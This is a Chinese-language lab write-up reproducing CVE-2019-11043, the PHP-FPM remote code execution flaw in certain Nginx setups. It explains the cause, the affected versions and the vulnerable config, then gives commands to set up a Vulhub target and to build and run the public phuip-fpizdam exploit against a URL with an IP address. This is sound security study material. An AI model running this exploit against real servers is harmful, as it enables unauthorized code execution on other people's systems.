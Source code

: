 <!-- TOC -->

- [[CVE-2019-11043]PHP-FPM在Nginx特定配置下RCE复现](#cve-2019-11043php-fpm在nginx特定配置下rce复现)
    - [漏洞概述](#漏洞概述)
    - [漏洞影响范围](#漏洞影响范围)
    - [漏洞复现](#漏洞复现)

<!-- /TOC -->
# [CVE-2019-11043]PHP-FPM在Nginx特定配置下RCE复现
## 漏洞概述
在2019年9 月 14 日至 18 举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

Nginx 上 fastcgi_split_path_info 在处理带有 %0a 的请求时，会因为遇到换行符 \n 导致 PATH_INFO 为空。而 php-fpm 在处理 PATH_INFO 为空的情况下，存在逻辑缺陷。攻击者通过精心的构造和利用，可以导致远程代码执行。

漏洞编号：CVE-2019-11043

漏洞 PoC 在 10 月 22 日公开。


## 漏洞影响范围

**PHP 5.6-7.x**

Nginx + php-fpm 的服务器，在使用如下配置的情况下，都可能存在远程代码执行漏洞。

```
 location ~ [^/]\.php(/|$) {

        fastcgi_split_path_info ^(.+?\.php)(/.*)$;

        fastcgi_param PATH_INFO       $fastcgi_path_info;

        fastcgi_pass   php:9000;

        ...
  }
}
```

## 漏洞复现
复现用的是[Vulhub](https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043)靶场，配合Go环境。

基于**Ubuntu 18.04**的漏洞环境部署如下：
```
apt-get install docker
service docker start
apt-get install python3-pip
pip3 install docker-compose

wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
apt-get install unzip
unzip vulhub-master.zip
cd vulhub-master

cd PHP/CVE-2019-11043
docker-compose up -d
```

基于**Windows 10**的Go环境的漏洞利用工具部署如下:
下载安装[Golang](https://dl.google.com/go/go1.13.3.windows-amd64.msi)后，
```
git clone https://github.com/neex/phuip-fpizdam #或浏览器下：https://github.com/neex/phuip-fpizdam/archive/master.zip
cd phuip-fpizdam
go get -v
go build 就会生成:phuip-fpizdam.exe

phuip-fpizdam.exe http://144.202.102.252:8080/index.php
```

![](https://www.github.com/52stu/Images/raw/master/xsj/1571888349020.png)

